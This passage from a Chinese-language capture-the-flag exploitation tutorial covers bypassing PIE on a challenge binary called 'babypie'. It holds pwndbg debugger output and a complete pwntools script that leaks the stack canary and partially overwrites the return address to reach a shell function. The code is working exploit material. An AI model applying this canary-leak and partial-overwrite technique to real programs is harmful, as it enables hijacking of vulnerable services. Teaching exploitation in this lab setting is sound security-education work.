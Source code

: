 ```asm
   0x55dc43694a23    mov    eax, 0
   0x55dc43694a28    mov    rcx, qword ptr [rbp - 8]
   0x55dc43694a2c    xor    rcx, qword ptr fs:[0x28]
   0x55dc43694a35    je     0x55dc43694a3c
 
   0x55dc43694a37    call   0x55dc436947c0
────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────
00:0000│ rax rsi rsp  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')
... ↓
05:0028│              0x7fff9aa3af48 ◂— 0xbfe0cfbabccd2861
06:0030│ rbp          0x7fff9aa3af50 —▸ 0x7fff9aa3af70 —▸ 0x55dc43694a80 ◂— push   r15
07:0038│              0x7fff9aa3af58 —▸ 0x55dc43694a6a ◂— mov    eax, 0
pwndbg> x/10i (0x0A3E+0x55dc43694000) 
   0x55dc43694a3e:	push   rbp
   0x55dc43694a3f:	mov    rbp,rsp
   0x55dc43694a42:	lea    rdi,[rip+0xd7]        # 0x55dc43694b20
   0x55dc43694a49:	call   0x55dc436947d0
   0x55dc43694a4e:	nop
   0x55dc43694a4f:	pop    rbp
   0x55dc43694a50:	ret    
   0x55dc43694a51:	push   rbp
   0x55dc43694a52:	mov    rbp,rsp
   0x55dc43694a55:	sub    rsp,0x10
```
可以发现, 此时的返回地址与 get shell 函数的地址只有低位的 16 bit 不同, 如果覆写低 16 bit 为 0x?A3E, 就有一定的几率 get shell

最终的脚本如下:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
#  context.log_level = "debug"
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]

while True:
    try:
        io = process("./babypie", timeout = 1)

        #  gdb.attach(io)
        io.sendafter(":\n", 'a' * (0x30 - 0x8 + 1))
        io.recvuntil('a' * (0x30 - 0x8 + 1))
        canary = '\0' + io.recvn(7)
        success(canary.encode('hex'))

        #  gdb.attach(io)
        io.sendafter(":\n", 'a' * (0x30 - 0x8) + canary + 'bbbbbbbb' + '\x3E\x0A')

        io.interactive()
    except Exception as e:
        io.close()
        print e
```
需要注意的是, 这种技巧不止在栈上有效, 在堆上也是一种有效的绕过地址随机化的手段
### 题目
